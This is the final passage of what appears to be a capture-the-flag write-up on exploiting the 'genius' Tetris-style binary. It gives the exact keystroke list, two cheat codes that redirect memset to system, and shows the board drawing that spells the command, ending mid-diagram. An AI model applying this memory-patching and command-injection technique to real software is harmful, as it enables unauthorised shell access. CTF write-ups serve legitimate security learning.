 I literally drew all that <a href='https://lh3.googleusercontent.com/XP_NGHWbr6rxMZIf_sXePMzNOPj_fMq5Gs22GBtgkfUcUJmqQAZj9CUgFNVefQ2LOzEktQw-O5gY_deSk0-k6IXD8uGQnClvOtakz5A0NyzcxFNQYoE70CzVsVoxg3Uw6vsn5rGIZKXGjFFhtKKH6GvAMzc_vbB8DulmfXCpjNwsM8gu2LG6KGD0AHPF3HhdqyyTs5EH5C9EUeFgphtI-4-lzWjEdbYUbm5YzH6EfSqMs3h7lfBeArDF-cIBomXrlpoix9ox0BTKlCAS4Ygnox458YD74ECoTXpvCC0jAPE0Vq-KnpK81pjaXWQdYUgyorJ3xIho2EQJ724K9Xk3OpfZgYTeHAtzKRcy8EXB3tU0vsdvS-GY5kbEl38N7Qnx1f20nxCwEHmCEVmDGtvPlJOwvXVhTJbql_en8PCzsgIY5Ctix__9YVpRGx-F3iJOfQUvxVuNw6P8TQmpAV7UpDgAK7ipRh7tr__B7BFtFsrcOj1XQzUpctnebxGAmWk30aekgrXskkfiQ-dxexjj7U29KrHhpv3KZzUOQEtKPSgorIukE3mZ65cBvVDeNl7CsEPyYJ_tkTSIyFPJp7RQMGckk-0N2oSKZ-hMIvRdX-UxHHMeBHGv9ZWeEB0w68EwnbiPpvXzJqdB2ytUVQ1PtClF8givdWNr=w974-h1297-no'>on paper</a>, erasing and moving stuff as needed to get the shape right. Once I had the shape, I figured out the inputs that would be required by literally playing:

<ul>
<li>as</li>
<li>qaas</li>
<li>eddds</li>
<li>qdddds</li>
<li>ds</li>
<li>ddddds</li>
<li>qaas</li>
<li>eaaaas</li>
<li>as</li>
<li>ddddds</li>
<li>edddds</li>
<li>aaaaas</li>
<li>eas</li>
</ul>

Followed by 's' repeated to drop every piece straight down until the board fills up and the game ends.

<h2>To summarize</h2>

So here is the exploit, in brief!

Run <tt>./loader</tt> in the same folder as <tt>genius</tt> (or user the Dockerfile).

Enter code 1, AZZAZT, which changes <tt>memset</tt> into <tt>system</tt>

Enter code 2, SLGOGI, which changes <tt>system(board)</tt> to <tt>system(board+0x15)</tt>

Play the game, and enter the list of inputs shown just above.

When the game ends, like magic, a shell appears!

<pre>
+----------+
|    *     |
|   *#*    |
|   ###    |
|   ##     |
|   ##     |
|    #     |
|   ##     |
|   #      |
|   ####   |
|     #    |
|   ###  # |
|#  #    ##|
|#####   ##|
